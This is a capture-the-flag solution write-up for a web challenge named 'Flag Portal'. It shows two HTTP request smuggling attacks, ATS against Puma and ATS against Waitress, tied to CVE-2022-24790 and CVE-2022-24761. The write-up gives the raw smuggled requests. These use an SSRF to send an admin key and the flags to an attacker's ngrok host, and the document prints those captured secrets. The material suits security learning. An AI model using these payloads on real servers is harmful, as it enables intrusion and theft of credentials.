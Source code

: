 # Flag Portal - Solution

**Author**: zeyu2001

**Category**: Web

2 HTTP request smuggling vulns.

## 1) Between ATS and Puma

Conditions that make this possible:

- ATS interprets `"chunked"` as `chunked`
- Puma ignores invalid / unsupported TE values

First, we need to smuggle a request to `/admin` in `flagportal` to perform an SSRF.

```http
GET /home HTTP/1.1
Host: example.com
Transfer-Encoding: "chunked"

DELETE /admin?backend=http://f754-42-60-216-15.ngrok.io HTTP/1.1
Host: example.com
Padding: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0: x

```

Here's how this works.

For ATS:

- ATS interprets `"chunked"` as `chunked`.
- It sees the first two characters of `DELETE`, and interprets `0xDE` as the chunk size.
- Using the padding header, we add enough bytes so that we have `0xDE` bytes when we reach `0: x`.
- The `0: x` line is parsed as the chunk terminator.
- ATS only sees one request, `GET /`.

For Puma:

- Puma ignores the invalid `"chunked"` transfer encoding.
- The content length of the first request is then 0.
- Puma sees two requests, `GET /` and `DELETE /admin`.

By hosting our own server, we can catch the request, including the `Admin-Key`.

```http
POST / HTTP/1.1
Host: f754-42-60-216-15.ngrok.io
User-Agent: Ruby
Content-Length: 37
Accept: */*
Accept-Encoding: gzip;q=1.0,deflate;q=0.6,identity;q=0.3
Admin-Key: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
First-Flag: SEE{n0w_g0_s0lv3_th3_n3xt_p4rt_bf38678e8a1749802b381aa0d36889e8}
X-Forwarded-For: 42.60.216.15
X-Forwarded-Proto: http

target=https%3A%2F%2Fbit.ly%2F3jzERNa
```

This gives us the first flag, `SEE{n0w_g0_s0lv3_th3_n3xt_p4rt_bf38678e8a1749802b381aa0d36889e8}`.

Note that with the above request smuggling method, we won't be able to get the second response from Puma, which is why there are two parts to this challenge. ATS will only show the first response even if we add more requests after the `DELETE` request above.

## 2) Between ATS and Waitress

Conditions that make this possible:

- ATS processes LF as line endings (instead of CRLF)
- Waitress allows LF in chunked extensions

```http
GET /api HTTP/1.1
Host: backend
Transfer-Encoding: chunked

2;[\n]xx
d9
0

POST /flag-plz HTTP/1.1
Host: backend
ADMIN-KEY: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

target=http://f754-42-60-216-15.ngrok.io

0

```

Notice a `\n` is added to the chunk extension. Since ATS processes the LF as the end-of-line, it sees the following:

```http
GET /api HTTP/1.1
Host: backend
Transfer-Encoding: chunked

2
xx
d9
0

POST /flag-plz HTTP/1.1
Host: backend
ADMIN-KEY: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

target=http://f754-42-60-216-15.ngrok.io

0

```

The second request is encapsulated in the chunked content of the first request.

Waitress, on the other hand, would see both requests:

```http
GET /api HTTP/1.1
Host: backend
Transfer-Encoding: chunked

2
d9
0

POST /flag-plz HTTP/1.1
Host: backend
ADMIN-KEY: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

target=http://f754-42-60-216-15.ngrok.io

0

```

`python3 payload.py | nc localhost 8000`

From our receiving server, we can see the flag: `SEE{y4y_r3qu3st_smuggl1ng_1s_fun_e28557a604fb011a89546a7fdb743fe9}`

```http
POST / HTTP/1.1
Host: f754-42-60-216-15.ngrok.io
User-Agent: python-requests/2.27.1
Content-Length: 106
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 42.60.216.15
X-Forwarded-Proto: http

flag=SEE%7By4y_r3qu3st_smuggl1ng_1s_fun_e28557a604fb011a89546a7fdb743fe9%7D&congrats=Thanks+for+playing%21
```

## Credits

- Thesis by Matthias Grenfeldt and Asta Olofsson where they investigated ATS in-depth. The vulnerabilities on the ATS-side of things in this challenge were discovered by them and detailed in this thesis.

<http://kth.diva-portal.org/smash/get/diva2:1596031/FULLTEXT01.pdf>

- For Puma and Waitress, these were vulnerabilities I found when researching on web servers and request smuggling.
  - CVE-2022-24790: <https://github.com/puma/puma/security/advisories/GHSA-h99w-9q5r-gjq9>
  - CVE-2022-24761: <https://github.com/Pylons/waitress/security/advisories/GHSA-4f7p-27jc-3c36>